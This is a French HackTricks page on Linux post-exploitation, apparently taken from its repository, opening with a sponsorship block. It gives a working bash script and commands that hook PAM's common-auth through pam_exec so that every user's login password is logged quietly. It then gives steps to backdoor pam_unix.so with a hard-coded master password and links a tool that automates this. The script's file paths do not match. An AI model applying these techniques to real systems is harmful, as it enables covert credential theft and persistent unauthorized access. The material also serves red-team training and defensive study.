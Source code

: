 # Post-Exploitation Linux

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Capture des mots de passe de connexion avec PAM

Configurons un module PAM pour enregistrer chaque mot de passe que chaque utilisateur utilise pour se connecter. Si vous ne savez pas ce qu'est PAM, consultez :

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Pour plus de détails, consultez le [message original](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Ceci n'est qu'un résumé :

**Aperçu de la technique :**
Les modules d'authentification enfichables (PAM) offrent une flexibilité dans la gestion de l'authentification sur les systèmes Unix. Ils peuvent renforcer la sécurité en personnalisant les processus de connexion, mais posent également des risques s'ils sont mal utilisés. Ce résumé décrit une technique pour capturer les informations d'identification de connexion en utilisant PAM, ainsi que des stratégies d'atténuation.

**Capture des informations d'identification :**
- Un script bash nommé `toomanysecrets.sh` est créé pour enregistrer les tentatives de connexion, capturant la date, le nom d'utilisateur (`$PAM_USER`), le mot de passe (via stdin) et l'adresse IP de l'hôte distant (`$PAM_RHOST`) dans `/var/log/toomanysecrets.log`.
- Le script est rendu exécutable et intégré dans la configuration PAM (`common-auth`) en utilisant le module `pam_exec.so` avec des options pour s'exécuter discrètement et exposer le jeton d'authentification au script.
- Cette approche montre comment un hôte Linux compromis peut être exploité pour enregistrer discrètement des informations d'identification.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Installation d'une porte dérobée dans PAM

**Pour plus de détails, consultez le [post original](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Ceci est juste un résumé :

Le Module d'Authentification Pluggable (PAM) est un système utilisé sous Linux pour l'authentification des utilisateurs. Il repose sur trois concepts principaux : **nom d'utilisateur**, **mot de passe**, et **service**. Les fichiers de configuration pour chaque service se trouvent dans le répertoire `/etc/pam.d/`, où des bibliothèques partagées gèrent l'authentification.

**Objectif** : Modifier PAM pour permettre l'authentification avec un mot de passe spécifique, contournant le mot de passe réel de l'utilisateur. Cela se concentre particulièrement sur la bibliothèque partagée `pam_unix.so` utilisée par le fichier `common-auth`, inclus par presque tous les services pour la vérification des mots de passe.

### Étapes pour modifier `pam_unix.so` :

1. **Localiser la Directive d'Authentification** dans le fichier `common-auth` :
- La ligne responsable de la vérification du mot de passe d'un utilisateur appelle `pam_unix.so`.
2. **Modifier le Code Source** :
- Ajouter une instruction conditionnelle dans le fichier source `pam_unix_auth.c` qui accorde l'accès si un mot de passe prédéfini est utilisé, sinon, il procède avec le processus d'authentification habituel.
3. **Recompiler et Remplacer** la bibliothèque `pam_unix.so` modifiée dans le répertoire approprié.
4. **Test** :
- L'accès est accordé à travers divers services (connexion, ssh, sudo, su, économiseur d'écran) avec le mot de passe prédéfini, tandis que les processus d'authentification normaux restent inchangés.

{% hint style="info" %}
Vous pouvez automatiser ce processus avec [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

